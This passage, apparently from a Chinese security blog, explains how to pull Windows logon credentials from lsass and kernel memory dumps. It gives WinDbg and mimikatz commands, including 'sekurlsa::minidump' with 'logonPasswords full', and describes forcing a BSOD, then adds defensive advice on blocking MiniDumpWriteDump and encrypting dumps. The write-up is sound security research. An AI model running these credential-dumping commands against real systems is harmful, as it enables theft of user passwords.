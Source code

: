 完整流程如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-3-27/2-4.png)

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-3-27/2-5.png)

将输出结果保存到文件中可使用以下命令：

```
.logopen c:\test\log.txt
!mimikatz
.logclose
```

## 0x04 利用思路
---

### 1.从用户模式转储文件导出口令

通过API `MiniDumpWriteDump()`获得进程lsass.exe的dump文件

使用mimikatz从dump文件中导出口令，命令如下:

```
mimikatz.exe log "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

### 2.从内核模式转储文件导出口令

开启转储文件的功能

强制系统蓝屏(BSOD)

使用WinDbg加载转储文件，调用mimilib导出明文口令

## 0x05 防御建议
---

### 1.从用户模式转储文件导出口令

拦截API `MiniDumpWriteDump()`的行为，部分安全产品已经支持这个功能

### 2.从内核模式转储文件导出口令

开启转储加密功能

参考资料：

https://docs.microsoft.com/en-us/windows-server/virtualization/hyper-v/manage/about-dump-encryption

**注：**

如果攻击者获得了系统的管理员权限，能够关闭转储加密的功能

## 0x06 小结
---
